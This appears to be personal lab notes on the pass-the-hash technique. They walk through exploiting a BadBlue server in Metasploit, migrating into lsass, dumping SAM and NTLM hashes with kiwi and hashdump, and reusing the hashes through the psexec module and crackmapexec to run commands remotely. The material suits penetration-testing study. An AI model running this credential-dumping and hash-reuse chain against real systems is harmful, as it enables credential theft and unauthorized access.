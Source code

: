 #### Pass-The-Hash Attack
- Pass the hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text
-  passwords and utilizing them to authenticate with the target legitimately.

#### Tools
- metasploit PsExec module
- Crackmapexec
#### Lab environment
- service postgresql start
- msfconsole
- search badblue
- use 1 [badblue_passthru]
- pgrep lsass [ run this command in meterpreter]
- migrate 780 [ 780 is found from previous command]
- getuid 
- load kiwi
- lsa_dump_sam [this is dump all the hashes]
- hashdump [this also dump the hashes but in this case first hash is same for all users and 2nd one is NTLM hash]
- ctrl+z [run the meterpreter session in background]
- search psexec
- use /exploit/windows/smb/psexec 
- set everythings like RHOSTS,LPORT etc
- set SMBUser user_name
- set SMBPass hash1:hash2
- set different LPORT as one meterpreter session is running in one port
- set target
- set target Native\ upload [we can set target as our requirement]
- 
#### crackmapexec
- after getting NTLM hass we can login using this tool
- crackmapexec smb 10.10.10.25 -u Administrator -H "only NTLM hash"
- crackmapexec smb 10.10.10.25 -u Administrator -H "only NTLM hash"  -x "whoami" [ in x parameter value we can use different command as we need]



